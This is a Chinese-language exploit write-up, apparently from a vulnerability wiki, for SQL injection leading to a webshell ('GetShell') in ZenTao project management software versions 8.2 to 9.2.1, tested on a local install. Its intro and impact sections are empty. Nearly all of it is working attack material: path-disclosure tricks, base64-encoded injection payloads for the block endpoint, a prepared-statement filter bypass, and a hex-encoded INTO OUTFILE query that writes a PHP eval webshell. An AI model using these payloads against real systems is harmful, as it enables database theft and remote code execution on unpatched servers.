 ```yaml
---
title: 禅道8.2-9.2.1 注入GetShell
id: zhfly3361
---
```


# 禅道 8.2-9.2.1 注入&getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

我这里用的官方集成环境版本8.4

```
获取版本号：/index.php?mode=getconfig 
```

![image](../img/6e71c022c33bdb7f18a7472a2e70f5f1.png)

绝对路径

获取绝对路径：网址后面随便输入什么就会爆出绝对路径

![image](../img/79cfb8728ab92196b9abb7c7e3deb1bd.png)

没路径的报错exp：

```
{"orderBy":"order limit 1,1 PROCEDURE ANALYSE(polygon(id),1)#","num":"1,1","type":"openedbyme"} 
```

base64加密：

```
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMSwxIFBST0NFRFVSRSBBTkFMWVNFKHBvbHlnb24oaWQpLDEpIyIsIm51bSI6IjEsMSIsInR5cGUiOiJvcGVuZWRieW1lIn0= 
```

EXP

```
提交地址：http://127.0.0.1:81/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=base64 
```

※exp需要base64加密后才能提交，且回显、写Shell须加上Referer：http://127.0.0.1:81/zentao/

注入显密码：

```
{"orderBy":"order limit 1;#","num":"1,1","type":"openedbyme"} 
```

base64加密：

```
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTsjIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== 
```

不知道什么原因，本地复现无账号密码回显。。。

![image](../img/68b8ad9ee090cd8e8155ebdf41ac74d4.png)

前台GetShell：

```
{"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"} 
```

其中有部分使用了MySQL的预处理查询绕过程序的过滤：

导出shell：

```
select '<?php @eval($_POST[x])?>' into outfile 'D:/zentao/xampp/zentao/www/hack.php' 
```

HEX编码：（注意加密解密都不带0x，但是EXP中需要加上）

```
73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C652027443A2F7A656E74616F2F78616D70702F7A656E74616F2F7777772F6861636B2E70687027 
```

base64加密：

```
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzQ0M0EyRjdBNjU2RTc0NjE2RjJGNzg2MTZENzA3MDJGN0E2NTZFNzQ2MTZGMkY3Nzc3NzcyRjY4NjE2MzZCMkU3MDY4NzAyNztQUkVQQVJFIHBvcmQgRlJPTSBAU1FMO0VYRUNVVEUgcG9yZDstLSAtIiwibnVtIjoiMSwxIiwidHlwZSI6Im9wZW5lZGJ5bWUifQ== 
```

访问之即可在目录下生成hack.php：

![image](../img/68b8ad9ee090cd8e8155ebdf41ac74d4.png)
